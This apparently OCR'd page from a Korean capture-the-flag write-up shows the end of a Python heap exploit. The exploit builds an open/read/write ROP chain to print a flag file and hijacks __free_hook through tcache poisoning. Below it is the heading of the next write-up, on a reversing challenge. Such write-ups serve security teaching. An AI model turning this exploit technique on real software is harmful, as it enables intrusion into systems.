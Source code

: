 ```python
payload += p64(0)                 # <-- [rdx + 0x98] = rcx 
payload += p64(bss + 0xb0)        # <-- [rdx + 0xa0] = rsp
payload += p64(pop_rax)           # <-- [rdx + 0xa8] = rcx

payload += p64(2)
payload += p64(syscall)           # open('flag', O_RDONLY)
payload += p64(xchg_eax_edi)
payload += p64(pop_rsi)
payload += p64(bss + 0x300)
payload += p64(pop_rdx_r12)
payload += p64(0x100)
payload += p64(0x0)
payload += p64(pop_rax)
payload += p64(0)
payload += p64(syscall)           # read(fd, bss+0x300), 0x100)
payload += p64(pop_rdi)
payload += p64(1)
payload += p64(pop_rsi)
payload += p64(bss + 0x300)
payload += p64(pop_rdx_r12)
payload += p64(0x100)
payload += p64(0x0)
payload += p64(pop_rax)
payload += p64(1)
payload += p64(syscall)           # write(1, bss+0x300, 0x100)
payload += b'/home/secure-note/flag.txt'

create(3, 0x200, payload)

# stage4: overwrite free_hook to trigger payload
create(0, 0x100, b'aaaa')
create(1, 0x100, b'aaaa')
delete(1)
delete(0)
edit(0, p64(free_hook))
create(0, 0x100, b'aaaa')
create(0, 0x100, p64(call_rdx))
delete(3)

p.interactive()
```

# [REVERSING] OMR Card, psmal

라온화이트햇 핵심연구팀 이충일

# 0. 개요

---
